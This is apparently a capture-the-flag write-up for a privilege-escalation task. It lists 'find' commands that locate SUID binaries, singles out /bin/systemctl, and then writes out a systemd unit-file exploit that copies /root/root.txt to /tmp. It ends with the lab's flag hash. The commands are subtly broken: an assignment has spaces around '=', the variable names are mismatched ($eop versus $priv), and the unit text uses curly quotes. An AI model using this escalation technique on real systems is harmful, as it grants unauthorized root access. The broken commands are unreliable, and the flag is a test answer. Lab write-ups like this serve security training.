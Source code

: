 # Task 5: Privilege Escalation

  
1. On the system, search for all SUID files. What file stands out?  
  
find / -user root -perm -4000 -exec ls -ldb {} \;  
  
find / -user root -perm -4000 -print 2>/dev/null  
  
find / -perm -4000 2> /dev/null | xargs ls -lah  
  
[/bin/systemctl](file:///bin/systemctl)  
  
2. Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer?  
  
Become root and get the last flag (/root/root.txt)  
  
10.10.63.21  
  
10.10.63.21:3333/internal/index.php  
  
  
Create variable that holds unique file  
priv = $(mktemp).service  
  
Create unit file and assign to variable.   
echo '[Service]  
ExecStart=/bin/sh -c “cat /root/root.txt > /tmp/output”  
[Install]  
WantedBy=multi-user.target' > $priv  
  
  
Run unit file  
/bin/systemctl link $eop  
/bin/systemctl enable --now $priv  
  
To see if output is present  
ls -lah /tmp   
  
To print out flag from output  
cat /tmp/output  
  
  
a58ff8579f0a9270368d33a9966c7fd5  
